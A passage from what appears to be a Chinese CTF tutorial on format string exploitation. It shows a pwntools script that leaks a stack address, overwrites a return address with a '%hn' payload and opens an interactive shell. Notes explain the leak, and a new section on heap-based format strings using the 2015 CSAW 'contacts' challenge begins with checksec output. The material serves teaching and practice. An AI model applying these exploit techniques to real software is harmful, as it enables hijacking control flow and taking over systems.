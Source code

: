 ```python
p.sendline('1')
p.recvuntil('a'*0x8)
stack_leak = int(p.recv(14),16) - 0x38
log.info("stack_leak:"+hex(stack_leak))

# hijack retaddr
payload1 = p64(stack_leak)
payload2 = "%2218d%8$hn"

p.recvuntil('>')
p.sendline('2')
p.recvuntil("20): \n")
p.sendline(payload1)
p.recvuntil("20): \n")
p.sendline(payload2)

p.recvuntil('>')
p.sendline('1')

p.interactive()
```

**注解**：

1. 泄露地址的时候使用格式化字符串用的是 %p ，如果用 %s 再 u64 泄露出来的是函数 B 的 rbp 的值。原因也很简单，要求输出的是字符，系统到函数 A rbp 的值指向的地址取值，也就是函数 B 的值。如果是 %p 就将函数 A rbp 的值输出。
2. hijack 部分的 payload ，格式化字符串可以放到 name 输入，也就是和 stack_leak 一起输入，password 就随便输入点东西行了。这里因为输入长度现在，所以没有使用最稳妥的 单字节 输入，而是双字节。

## 堆上的格式化字符串漏洞

### 原理 

所谓堆上的格式化字符串指的是格式化字符串本身存储在堆上，这个主要增加了我们获取对应偏移的难度，而一般来说，该格式化字符串都是很有可能被复制到栈上的。（出现情况就像下面例子，格式化字符串本身存储在堆上，字符指针指向栈上，出现的情况是我们不能容易控制写入的地址）

### 例子 

这里我们以 2015 年 CSAW 中的 [contacts](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2015-CSAW-contacts) 为例进行介绍。

#### 确定保护 

```shell
➜  2015-CSAW-contacts git:(master) ✗ checksec contacts
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
